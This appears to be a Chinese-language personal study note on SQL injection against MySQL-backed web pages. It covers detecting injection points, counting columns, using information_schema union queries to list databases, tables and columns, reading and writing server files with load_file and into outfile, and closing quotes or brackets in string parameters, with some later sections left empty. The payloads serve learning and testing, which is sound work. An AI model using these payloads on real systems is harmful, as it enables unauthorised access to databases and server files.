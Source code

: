 # 																									SQL注入

## 1. 判断注入点

1. 老办法

   > and 1=1：页面正常
   >
   > and 1=2：页面错误

2. 新办法

## 2.猜测字段数量

1. order by x：直到正常和错误页面的临界值

## 3.信息收集

1. 数据库版本：version()
2. 数据库名称：database()
3. 数据库用户：user()
4. 操作系统：@@version_compile_os
5. 网站路径：@@datadir
6. 查看权限：select * from mysql.user where user='root'\G;  

## 4.information_schema

1. 查询所有数据库名

   > ```mysql
   > union select group_concat(schema_name) from information_schema.schemata
   > ```

2. 查询指定数据库表名

   > ```mysql
   > union select group_concat(table_name) from information_schema.tables where table_schema='databsename'
   > ```

3. 从指定数据库的指定表中查询列名

   > ```mysql
   > union select group_concat(column_name) from information_schema.columns where table_schema='databsename' and table_name='tablename'
   > ```

## 5.MySQL注入

1. 高权限注入

   1. 跨库注入  

   2. 文件读写操作
      需要先查看权限
      `SHOW VARIABLES LIKE "secure_file_priv";`
      更改权限为路径：在my.ini中添加`secure_file_priv = path `
      或者'='后面留空表示不限制。

      > 1. `select load_file('filename');`
      >
      > 2. `select 'string' into outfile 'filename/filepath'`或者 `select 'string' into dumpfile 'filename/filepath'`：导出函数 
      >
      > 3. 文件路径
      >
      >    > 当前目录：`load_file('filename')`
      >    >
      >    > 上级目录：`load_file('./filename')`
      >    >
      >    > 上上级目录：`load_file('../filename')`

   3. 获取路径常见方法

      >  报错显示，遗留文件，漏洞报错，平台配置文件，爆破
      >
      > 注：PHP 5.4可能存在magic_quotes_gpc魔术引号，可以通过将文件路径转为hex编码绕过

## 6.MySQL类型和提交注入

1. 简要明确参数类型

   > 1. 字符型需要先闭合单引号或者双引号参数形式为：
   >    单引号：`/?id=1' and 1=1`
   >    双引号：`/?id=1" and 1=1`
   >
   > 2.  搜索时模糊查询：
   >
   >    > select * from tablename where name like '%yourname%';
   >    >
   >    > 此时传入的参数就应该为：`/?id=name%' and 1=1`，或者单引号换成双引号也可以。
   >
   > 3. 语句还可能为：
   >
   >    > select * from users where name like ('%name%');
   >    >
   >    > 此时参数就需要闭合括号：`/?name=haha%'）and 1=1`

2. 简要明确请求方法

   > 1. GET：在URL提交参数
   > 2. POST：在请求头中
   > 3. COOKIE：在请求头中
   > 4. REQUEST：get和post都可以
   > 5. SERVER：获取用户的系统信息，可以使用多个内置参数。
   > 6. HTTP头：

## 7.Oracle和MongoDB注入













​	
